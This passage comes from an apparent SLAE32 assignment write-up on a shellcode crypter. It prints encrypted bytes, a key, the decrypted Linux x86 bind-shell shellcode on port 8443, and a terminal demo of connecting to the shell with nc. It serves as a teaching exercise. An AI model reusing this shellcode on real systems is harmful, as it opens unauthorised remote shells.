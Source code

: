 0x39,0x62,0x63,0x39,0x31,0x66,0x63,0x64,0x31,0x33,0x62,0x39,0x64,0x36,0x35,0x62,0x32,0x36,0x31,0x35,0x62,0x64,
0x64,0x34,0x38,0x30,0x34,0x37,0x31,0x31,0x30,0x34,0x35,0x35,0x66,0x39,0x64,0x65,0x61,0x34,0x30,0x37,0x64,0x39,
0x34,0x66,0x32,0x62,0x39,0x66,0x35,0x31,0x61,0x63,0x30,0x39,0x39,0x31,0x64,0x32,0x35,0x36,0x35,0x33

[x] Key:
deadbeefdeafface
[*] Decrypted shellcode:0x31,0xc9,0xf7,0xe1,0x99,0x6a,0x66,0x58,0x6a,0x1,0x5b,0x51,0x6a,0x1,0x6a,0x2,0x89,0xe1,
0xcd,0x80,0x97,0x6a,0x66,0x58,0x6a,0x2,0x5b,0x52,0x66,0x68,0x20,0xfb,0x66,0x53,0x89,0xe1,0x6a,0x10,0x51,0x57,
0x89,0xe1,0xcd,0x80,0x6a,0x66,0x58,0x6a,0x4,0x5b,0x31,0xf6,0x56,0x57,0x89,0xe1,0xcd,0x80,0x6a,0x66,0x58,0x6a,
0x5,0x5b,0x56,0x56,0x57,0x89,0xe1,0xcd,0x80,0x89,0xc3,0x6a,0x2,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x6a,0xb,
0x58,0x31,0xc9,0x51,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0xcd,0x80

[*] Executing shellcode..


────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:~/slae32/assigment$ lsof -i :8443
COMMAND  PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
aes_dec 5443 kecebong    3u  IPv4  72812      0t0  TCP *:8443 (LISTEN)

kecebong@ubuntu:~/slae32/assigment$ nc -v localhost 8443
Connection to localhost 8443 port [tcp/*] succeeded!
uptime
 12:08:03 up 15:56,  1 user,  load average: 0.00, 0.01, 0.05
whoamikecebong
date
Wed Apr  1 12:08:09 SGT 2020
exit
{% endhighlight %}

## Demo